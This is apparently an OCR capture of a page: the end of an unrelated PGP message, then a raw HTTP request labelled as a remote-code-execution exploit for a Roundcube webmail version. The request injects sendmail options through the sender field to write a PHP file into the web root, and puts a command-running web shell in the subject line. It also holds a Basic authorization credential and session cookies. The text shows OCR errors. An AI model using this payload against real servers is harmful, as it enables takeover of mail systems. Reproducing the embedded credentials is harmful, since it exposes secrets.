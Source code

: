OUzqgcvBwO6Enn4f9LPvKeMywhMgJU4MFtvSumulFYeoLJnzpDsXimFzXlKncKai
nzgqHgyZahwCo41DOvIdY5qSrkspUexqF80wy/C870rnvMIea9iiUT2\+gSmM27zZ
0xKQ0pMZygMJ1/tGNAGdByvjcP3eZR9tclu4/nBiNQV3EcZzrp/GQ26lukzgHIp/
3w4U4DRtKleemh\+ibKzHwnKiB766Z/DC2KBVtxK6AM4TiJ\+0COfBiGTpi1hwNxfS
yI26D5VncheNkiOH9UEg7Smi5n104L7lFq8Z4w3uNR9IgMZSEbOKpPP5gvd8DlZC
QUJzYkPHWdQPBIVgqiboTw7UmKFxF3tne9lnZEmPgD5z6VUP5H3cixPCqBIMtM3s
WdaACLBSW8hebDTuJOHikONjUKcy\+3pdLN/70CQ4uk7Zt\+VVTL0bsYpmMqqBabU4
\+xLXl2QiSLawg68DlE2aM/1DW219LfEiXO1AwGIAByP\+j/g6tI3qujXT1UrimKHu
iIo9m9k/hQGPfm4jeNL3mgScuhOof4Xqh8QMpGMCXUQZUGvgzJa9gq4j/pe/8KK7
yYmpZGblM7y9ForPlM3dcZMGCnUtfjUf8p5f2HvWMWBZVMWe0EjI/5NqCLqrfBSx
0YzDg1eCiNCWS53OA2HeAu97QdVXWk0vCeq\+KUmTNt9/mRqALpEUZ0REae7v5OhL
5YRfmnYwj\+3zyvF4m/iC2rWKyQKREXN5vRaCWmTDpy54cU0sotpOLxTfnW6Ab/KR
y88xv7Si7n8yyBtWfBf6wTSXa7oo8f0KPxycNOiFAUJD9oGtL0ICpPeaZnW\+2pCr
EWQat6BOsAjJIZALUVfOgJn8QyV6spySr5W91dp4dZ05v544ysT/zHJG29\+iLmq6
7b7CiONwnj48KQhq7FF8iEu/Hi2qcoH9MCmog7i3QPGQXEq\+6M1mtXAqXY43Qxmu
2m1PP5YLf47r4/cVccg721ag9ffLdL6kUkj9eHPAU/MqI3JX29HF9XTwSu07Vo32
Ym6niojCCeMsf9DuvR92UtOAwMjUrDiQQOM0eL2P7Z21IB6Zb\+I7Iqws03zQ5nkD
TYVQnJbdsqsz7Egj\+y/gh9Omg/iBxqP2qZ7uEAiQg4P/EEHPMBChe2\+SRtYO139v
ChZA53z11q0DzTtmbhoHqIDQ97J9yrdQe6YHvW\+zKQMcoEiiOaaJkF6pzmLBGQt2
EH9IQnxd39jtzzLsKWPFUe3G30ELm5TtnMd9WBQVtKNHxlCtD1eB3bTJgC6iHcOA
JowxDggqVtdxKQQEjLGquUkoS7Al5iMnuiA\+AXFC5VMmnoPD9v/M3CZaM7qt6LOg
K5usFSp0gwjGvPQO1UJucrKyXSBlOxFbzOxcKClRGqHU4\+Ir8Iu8MH1dlTmYH1Qr
UOdasHinj5UODyJyS7rHrzDr9kBKC7AAnCt0WHX7K3jVJEg0TnGpLFFIic7XrMld
6SXxrg0VWv1nqyKqaRXANGFqslktVGktJURntzj/kZD/9sO4Y6qoHMDNC3Aib3m9
RO1va5L9lriZ1vmP37FxIwsrCVVcNrPJxWydvw==
=fPY9
\-\-\-\-\-END PGP MESSAGE\-\-\-\-\-

Roundable 1\.2\.2 RCE 

OST /zmail/?\_task=mail\&\_unlock=loading1708026585671\&\_lang=en\_US\&\_framed=1 HTTP/1\.1
Host: 192\.168\.0\.229
User\-Agent: Mozilla/5\.0 \(X11; Linux x86\_64; rv:109\.0\) Gecko/20100101 Firefox/115\.0
Accept: text/html,application/xhtml\+xml,application/xml;q=0\.9,image/avif,image/webp,\*/\*;q=0\.8
Accept\-Language: en\-US,en;q=0\.5
Accept\-Encoding: gzip, deflate, br
Content\-Type: application/x\-www\-form\-urlencoded
Content\-Length: 333
Origin: [http://192.168.0.229](#http://192.168.0.229)

Authorization: Basic cDQ4OmVsZWN0cmljbw==
Connection: close
Referer: [http://192.168.0.229/zmail/?_task=mail&_action=compose&_id=41666860465ce6aca577d2](#http://192.168.0.229/zmail/?_task=mail&_action=compose&_id=41666860465ce6aca577d2)

Cookie: roundcube\_sessid=u6f8mhv827s6mboqenl2m45k2f; language=en\_US; roundcube\_sessauth=U5tFZpjVBKr7pEZ8oTOZTWJO67\-1708026300
Upgrade\-Insecure\-Requests: 1

\_token=gqQAXJrKgHfyX0qPFVDU18XrS3MYKssx\&\_task=mail\&\_action=send\&\_id=41666860465ce6aca577d2\&\_attachments=\&\_from=example@example\.com\+\-OQueueDirectory=/tmp\+\-X/var/www/html/reverse\.php\&\_to=a%40a\.com\&\_cc=\&\_bcc=\&\_replyto=\&\_followupto=\&\_subject=%3C%3Fphp\+system%28%24\_GET%5B%27cmd%27%5D%29%3B%3F%3E\&editorSelector=plain\&\_priority=0\&\_store\_target=Sent\&\_draft\_saveid=\&\_draft=\&\_is\_html=0\&\_framed=1\&\_message=pwn
